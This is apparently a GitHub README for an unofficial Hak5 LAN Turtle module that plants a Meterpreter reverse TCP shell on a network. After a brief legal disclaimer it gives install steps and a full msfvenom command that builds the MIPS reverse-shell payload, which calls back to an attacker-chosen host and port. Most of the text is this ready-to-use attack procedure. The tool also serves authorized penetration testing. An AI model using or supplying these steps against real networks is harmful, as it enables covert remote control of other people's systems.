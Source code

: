 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use of this module, remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - Download module from github**<br />
`git clone https://github.com/ATTACKnDEFEND/LanTurtlemeterpreter-mipsbe-reverse-tcp`

**2 - copy meterpreter-mipsbe-reverse-tcp to Hak5 Turtle modules directory
`copy meterpreter-mipsbe-reverse-tcp /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`

**3 - On Kali generate Meterpreter payload with Msfvenom
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f elf > meterpreter-mipsbe-reverse-tcp`





